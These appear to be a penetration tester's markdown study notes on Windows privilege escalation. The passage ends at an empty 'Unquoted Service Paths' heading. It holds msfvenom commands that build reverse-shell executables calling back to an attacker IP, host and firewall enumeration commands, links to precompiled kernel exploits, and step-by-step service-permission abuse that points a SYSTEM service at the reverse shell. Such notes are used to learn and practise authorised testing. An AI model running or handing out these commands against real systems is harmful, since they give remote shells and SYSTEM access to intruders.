

\pagenumbering{gobble}

# Windows Privilege Escalation



### Running Powershell
TO run powershell from cmd, and be able to run scripts, type powershell -exec bypass

### Enum Scripts
- [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
- [PowerUp.ps1](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1)
- [SharpUp](https://github.com/GhostPack/SharpUp)
- [SeatBelt](https://github.com/GhostPack/Seatbelt)
-  accesschk.exe (use old cli version cause you need to accept a eula on the gui version so its impossible on terminal)

### Script Usage
For winPEAS, enable colors by typing the following, then open a new command prompt:\
C:\USER>reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1

PowerUp.ps1:\
Dot source the script with . .\PowerUp.ps1\
Then run with Invoke-AllChecks\

SharpUp.exe:\
.\SharpUp.exe

You can run seatbelt with the all option to run all checks:\
.\SeatBelt.exe all

### MSFVENOM Rev Shell
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f exe -o reverse.exe`

`msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`

You can then transfer the file with something from lolbas or with smb or something else: [windows file transfers](https://0xdf.gitlab.io/2018/10/11/pwk-notes-post-exploitation-windows-file-transfers.html)
### Manual Commands
View users:\
`C:\Users\student> net user`

System Information:\
`C:\Users\student> systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type`

Processes:\
`C:\Users\student> tasklist /SVC`

Port Bindings:\
`C:\Users\student>ipconfig /all`

View Routing Tables:
`C:\Users\student> route print`

View Active Network Connections:\
`C:\Users\student> netstat -ano`

View Firewall Info:\
`C:\Users\student> netsh advfirewall show currentprofile`

Firewall Rules:\
`C:\Users\student> netsh advfirewall firewall show rule name=all`

View Scheduled Tasks:\
`schtasks /query /fo LIST /v`

View info of apps installed by windows installer:\
`c:\Users\student> wmic product get name, version, vendor`

Software update info:\
`wmic qfe get Caption, Description, HotFixID, InstalledOn`

World Writable Files:\
`Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}`

List unmounted disks:\
`mountvol`

View Drivers:\
`driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path`

View Drivers by version"\
`PS C:\Users\student> Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer`

Check  AlwaysInstallElevated Registrty, If this setting is enabled, we could craft an MSI file and run it to elevate our privileges:\
`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`
`reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer`

### Kernel Exploits
Use systeminfo to get kenrel info, then find exploits with usual methods (google, exploitdb, etc)  

- [Windows Exploit Suggester (wes-ng)](https://github.com/bitsadmin/wesng)
- [Watson Kernel Exploit Suggester](https://github.com/rasta-mouse/Watson)
- [Precompiled Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits)

### Service Exploits
```
Query the configuration of a service:
> sc.exe qc <name>
Query the current status of a service:
> sc.exe query <name>
Modify a configuration option of a service:
> sc.exe config <name> <option>= <value>
Start/Stop a service:
> net start/stop <name>
```

#### Insecure Service Permissions
If we can change the config of a service running as SYSTEM, we can change the executable the service runs to one of our own. (RABBIT HOLE: if you can change the configurateion but cant stop or start the service, it may not be a valid route to privesc).  
To find service info with winpeas, we can run `.\winPEASx86.exe quiet servicesinfo`  
You can also view this with `.\accesschk.exe /accepteula -uwcqv <user> <service name>`  
You can view the service info with `sc qc <service name>` and the service state with `sc qc <service name>`  
If we have access, we can set the binary path of the service to our reverse shell: `sc config <service name> binpath= "\"C:\<pathname>\reverseshellname.exe""`  
Then we can start the service with `net start <service name>`

#### Unquoted Service Paths


